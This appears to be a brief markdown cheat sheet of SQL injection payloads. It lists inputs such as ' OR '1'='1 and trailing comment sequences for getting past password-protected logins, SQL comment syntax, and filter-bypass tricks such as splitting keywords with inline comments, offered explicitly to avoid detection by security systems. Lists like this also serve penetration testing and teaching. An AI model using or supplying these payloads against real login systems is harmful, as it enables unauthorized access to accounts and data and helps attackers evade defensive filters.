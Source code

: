 # SQL Injection Payloads
## Bypass password
These inputs can be used to bypass password restricted logins
```sql
username' OR '1'='1
username'
username'--
```

## Comments
```sql
--
#
/* */
```

## Filter Bypass
Use these to avoid detection from security systems
```sql
SEL/**/ECT
' like '-- Use this instead of '='
```
